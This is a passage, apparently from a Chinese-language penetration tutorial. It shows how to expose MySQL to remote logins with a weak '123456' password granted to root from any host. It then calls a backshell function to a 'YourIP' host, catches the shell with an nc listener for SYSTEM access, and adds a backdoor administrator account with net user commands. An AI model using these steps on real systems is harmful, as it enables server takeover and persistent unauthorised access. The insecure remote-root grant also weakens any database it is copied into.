 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyxvhe97u5j20ze0f3402.jpg)

方法三：

```sql
默认情况下，mysql只允许本地登录，如果要开启远程连接，则需要修改/etc/mysql/my.conf文件。

一、修改/etc/mysql/my.conf
找到bind-address = 127.0.0.1这一行
改为bind-address = 0.0.0.0即可

二、为需要远程登录的用户赋予权限
1、新建用户远程连接mysql数据库
grant all on *.* to admin@'%' identified by '123456' with grant option; 
flush privileges;
允许任何ip地址(%表示允许任何ip地址)的电脑用admin帐户和密码(123456)来访问这个mysql server。
注意admin账户不一定要存在。

2、支持root用户允许远程连接mysql数据库
grant all privileges on *.* to 'root'@'%' identified by '123456' with grant option;
flush privileges;
```



## **二、具体实现方法**

### **1.连接mysql服务器**

(1)通过mysql客户端工具可以直接连接

(2)通过phpmyadmin进行连接

(3)通过mysql.exe直接连接

### **2.执行查询命令**

(1)网上提供的“\. c:\mysql.txt”命令会出错，最好通过phpmyadmin或者Navicat for MySQL等工具来进行查询。修改mysql.txt中的最后一行代码“select backshell("YourIP",4444);”为自己反弹的IP和反弹监听的端口。

(2)本地开启监听反弹的端口

nc.exe -vv -l -p 4444

(3)执行mysql查询，将mysql.txt文件内容复制到查询中执行。

成功后，你将获得一个system权限的cmdshell。

### **3.添加用户或者获取管理员密码**

通过反弹shell添加用户antian365，密码www.antian365.com

```
1. net user antian365 www.antian365.com /add  
2. net localgroup administrators antian365 
```

